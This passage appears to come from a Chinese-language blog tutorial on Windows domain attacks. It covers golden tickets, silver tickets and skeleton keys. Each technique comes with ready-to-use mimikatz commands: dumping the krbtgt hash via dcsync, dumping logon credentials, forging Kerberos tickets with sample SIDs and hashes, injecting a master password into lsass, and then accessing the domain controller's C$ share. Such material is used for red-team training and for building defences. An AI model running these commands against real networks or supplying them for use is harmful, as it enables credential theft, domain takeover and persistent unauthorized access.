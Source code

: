 ![](https://img2018.cnblogs.com/blog/1561366/201911/1561366-20191119160932393-2038942006.png)

### 0x05 票据传递攻击(PTT)

#### 5.1 黄金票据

域中每个用户的 Ticket 都是由 krbtgt 的密码 Hash 来计算生成的，因此只要获取到了 krbtgt 用户的密码 Hash ，就可以随意伪造 Ticket ，进而使用 Ticket 登陆域控制器，使用 krbtgt 用户 hash 生成的票据被称为 Golden Ticket，此类攻击方法被称为票据传递攻击。

首先获取krbtgt的用户hash:

```bash
mimikatz "lsadump::dcsync /domain:xx.com /user:krbtgt"
```

利用 mimikatz 生成域管权限的 Golden Ticket，填入对应的域管理员账号、域名称、sid值，如下：

```bash
kerberos::golden /admin:administrator /domain:ABC.COM /sid:S-1-5-21-3912242732-2617380311-62526969 /krbtgt:c7af5cfc450e645ed4c46daa78fe18da /ticket:test.kiribi
```

```ruby
#导入刚才生成的票据
kerberos::ptt test.kiribi

#导入成功后可获取域管权限
dir \\dc.abc.com\c$
```

#### 5.2 白银票据

黄金票据和白银票据的一些区别：Golden Ticket：伪造TGT，可以获取任何 Kerberos 服务权限，且由 krbtgt 的 hash 加密，金票在使用的过程需要和域控通信

白银票据：伪造 TGS ，只能访问指定的服务，且由服务账号（通常为计算机账户）的 Hash 加密 ，银票在使用的过程不需要同域控通信

```bash
#在域控上导出 DC$ 的 HASH
mimikatz log "privilege::debug" "sekurlsa::logonpasswords"

#利用 DC$ 的 Hash制作一张 cifs 服务的白银票据
kerberos::golden /domain:ABC.COM /sid: S-1-5-21-3912242732-2617380311-62526969 /target:DC.ABC.COM /rc4:f3a76b2f3e5af8d2808734b8974acba9 /service:cifs /user:strage /ptt

#cifs是指的文件共享服务，有了 cifs 服务权限，就可以访问域控制器的文件系统
dir \\DC.ABC.COM\C$
```

#### 5.3 skeleton key

skeleton key(万能钥匙)就是给所有域内用户添加一个相同的密码，域内所有的用户 都可以使用这个密码进行认证，同时原始密码也可以使用，其原理是对 lsass.exe 进行注 入，所以重启后会失效。

```php
#在域控上安装 skeleton key
mimikatz.exe privilege::debug "misc::skeleton"

#在域内其他机器尝试使用 skeleton key 去访问域控，添加的密码是 mimikatz
net use \\WIN-9P499QKTLDO.adtest.com\c$ mimikatz /user:adtest\administrator
```
